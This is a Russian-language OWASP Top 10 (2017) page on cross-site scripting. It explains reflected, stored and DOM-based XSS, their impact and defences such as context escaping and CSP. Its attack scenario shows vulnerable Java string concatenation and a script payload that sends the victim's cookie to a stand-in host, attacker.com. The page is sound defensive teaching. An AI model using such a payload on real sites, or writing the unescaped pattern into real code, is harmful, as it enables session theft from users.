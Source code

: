 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например, кража учетных данных, перехват сессий или установка вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

* __Отраженное XSS__: Приложение или API включает непроверенные и неэкранированные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например, используя атаку типа "водопой" или рекламу.
* __Межсайтовое выполнение хранимых сценариев__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
* __XSS на основе объектной модели документа (DOM)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе DOM. В идеале, приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены DOM-узлов (напр., троянские панели входа в систему), а также атак на браузеры, например, для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

* Использовать фреймворки с автоматическим экранированием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
* Экранировать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) содержит подробные инструкции по экранированию данных.
* Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе DOM. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе DOM"](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)).
* Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или экранирования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

* [Проактивная защита OWASP: Кодирование данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Проактивная защита OWASP: Проверка данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Стандарт подтверждения безопасности приложений OWASP: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Памятка OWASP: Предотвращение XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Памятка OWASP: Предотвращение XSS на основе DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Памятка OWASP: Обход фильтра XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [Проект кодировщика Java от OWASP](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Сторонние

* [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)